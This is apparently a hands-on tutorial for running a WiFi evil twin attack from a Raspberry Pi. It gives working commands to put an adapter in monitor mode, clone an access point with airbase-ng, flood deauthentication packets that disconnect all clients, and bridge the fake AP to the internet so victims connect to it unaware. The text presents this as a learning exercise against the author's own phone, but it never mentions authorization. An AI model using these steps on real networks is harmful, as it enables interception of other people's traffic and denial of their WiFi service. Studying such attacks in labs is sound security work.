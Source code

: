 Now we want to get started learning some simple WiFi hacks.

We will:

1. Enable our WiFi adapter for monitoring mode.
2. Perform a simple Evil twin attack which is a kind of Man in the middle attack that will allow your Raspberry Pi to act as an AP to monitor information.

Getting Started:
  1. Plug in and turn on your Raspberry Pi
  2. You will need to install bridge utils.
    - After you've SSH'd into your Raspberry pi, run:
      `apt-get install bridge-utils`

Steps:

  1. To show available wireless interfaces run:
      `iwconfig`

    <img src="img/iwconfig.jpg"/>

  2. Start monitor mode on the available WiFi device.
    Run:
      `airmon-ng start wlan1`

    Also make note of any alerts like:
      `Found 3 processes that could cause trouble.`

      <img src="img/airmonstart.jpg"/>

      "Kill" those processes, they may interfere they may not, you will need to restart the dhclient later:
        `airmon-ng check kill`
      Then re-run:
        `airmon-ng start wlan1`
      <img src="img/airmonstart2.jpg"/>
  3. Capture packets from the air using the device you put in monitor mode.
      - Run:
        `airodump-ng wlan1mon`

        <img src="img/capturepackets.jpg"/>

      - After about half a minute enter `control + c` and open a new terminal

      - Open an SSH session with your Raspberry Pi in that terminal like you did at the beginning.

    4. Create the twin

  Run:
          `airbase-ng -a [BSSID] --essid <ESSID here> -c <channel here> <interface name>`
5. Deauthenticate the client
For this I am using my phone as the client that is the target of the attack.
          Run:

              `aireplay-ng --deauth 0 -a [BSSID] wlan1mon --ignore-negative-one`

"0" sets the time interval for sending de-authentication requests. 0 = very fast, 1 = 1/second, 2 = 1 every 2 seconds, etc.

This will disconnect all clients from the network

  <img src="img/deauth.jpg"/>

  6. Give the "evil twin" internet access
    This will provide internet access to the fake Access Point and allow clients to connect thinking they're accessing the real Access Point.

        Run:
          `brctl addbr evil`
        This creates a bridge.

        `brctl addif evil eth0`
        and
        `brctl addif evil at0`

        are the two interfaces being bridged.

        "eth0" is the the internet connection on my Raspberry Pi

        and "at0" is the interface created by airmon-ng that clients will connect to the internet through.

        Next you want to assign IP's to the interfaces with:
        `ifconfig eth0 0.0.0.0 up`
        `ifconfig at0 0.0.0.0 up`

        Bring up the evil interface:
        `ifconfig evil up`

        Auto configure DHCP settings:
        `dhclient evil &`

        This completes the set up for the attack. You can see my phone connecting to the "Evil twin"
<img src="img/phone.jpg"/>
